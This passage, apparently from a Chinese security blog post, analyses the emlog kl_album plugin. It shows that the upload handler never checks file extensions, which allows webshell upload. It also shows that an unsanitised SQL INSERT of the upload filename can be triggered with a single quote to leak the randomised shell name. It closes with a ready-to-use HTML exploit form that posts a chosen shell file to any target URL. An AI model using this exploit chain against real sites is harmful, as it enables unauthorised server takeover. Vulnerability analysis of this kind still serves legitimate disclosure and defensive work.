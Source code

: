 ```php
        }
    }
    $attach = substr($attach, 6, strlen($attach));
    return     $attach;
}
```

从上面的代码中我们发现，对于之前传入的`$_type`这个变量在这个函数里根本就没有起到任何左右，函数中定义的`$imtype = array('jpg','png','jpeg','gif');`，也不是用来验证后缀的，而是判断是否需要生成缩略图的，所以重点就是下面的内容了：


```php
$extension  = strtolower(substr(strrchr($filename, "."),1));
$uppath = KL_UPLOADFILE_PATH . date("Ym") . "/";
$fname = md5($filename) . date("YmdHis") . rand() .'.'. $extension;
$attachpath = $uppath . $fname;
...
...
...
if(@!move_uploaded_file($tmpfile ,$attachpath)){
```

这里我们可以发现上传的文件名是：


```php
$fname = md5($filename) . date("YmdHis") . rand() .'.'. $extension;
```

这里的意思是将原来的文件名的md5值+当前时间+rand随机数+后缀，md5值和时间基本上比较好确定，但是这个rand（）随机数一般都是0-65535之间，非常麻烦。

同时我们可以看到下面的代码，并没有把问卷名输出的地方，只是`echo 'kl_album_successed';`。难道，我们需要暴力破解shell名字？

我们返回kl_album_ajax_do.php，可以发现上传的if语句中有如下代码：


```php
$result = $DB->query("INSERT INTO ".DB_PREFIX."kl_album(truename, filename, description, album, addtime, w, h) VALUES('{$_FILES['Filedata']['name']}', '{$upfname}', '".date('Y-m-d', time())."', {$album}, ".time().", {$photo_size['w']}, {$photo_size['h']})");
```

这里将`$_FILES['Filedata']['name']`直接插入数据库。这里另造成了一个SQL注入漏洞，当然既然有之前的getshell，这里的注入就有点当陪衬了。不过emlog在遇到SQL语句出错的情况下是会报错的。

所以所以，这里我们正好用到这个特性，通过报错可以将$upfname这个字段爆出来，这也就是我们上传成功的shell名字。

如何报错？上传文件名里加个单引号即可。

**漏洞复现**


```html
<form id="exp" method="post" enctype="multipart/form-data">
<p>target url > <input id="url" type="text" style="width: 300px"></p>
<p>shell file > <input type="file" name="Filedata"></p>
<input name="album" type="hidden" value="111111" >
<p><input type="submit" value="GO!" οnclick="exp.action=url.value+'/content/plugins/kl_album/kl_album_ajax_do.php';"></p>
</form>
```
